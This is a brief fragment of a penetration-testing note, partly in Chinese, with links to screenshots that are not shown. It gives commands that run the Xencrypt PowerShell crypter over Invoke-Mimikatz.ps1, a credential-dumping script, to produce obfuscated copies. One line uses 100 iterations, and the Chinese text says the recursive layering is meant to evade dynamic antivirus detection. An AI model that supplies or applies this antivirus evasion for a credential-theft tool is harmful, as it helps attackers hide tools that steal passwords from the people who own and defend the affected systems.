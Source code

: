 	https://github.com/the-xentropy/xencrypt/blob/master/xencrypt.ps1
	>Invoke-Xencrypt -InFile invoke-mimikatz.ps1 -OutFile xenmimi.ps1 -Iterations 100 递归分层躲避动态查杀
![image](/assets/Pentest_Note/master/img/89.png)

	>Invoke-Xencrypt -infile .\Invoke-Mimikatz.ps1 -outfile mimi.ps1
![image](/assets/Pentest_Note/master/img/90.png)
![image](/assets/Pentest_Note/master/img/91.png)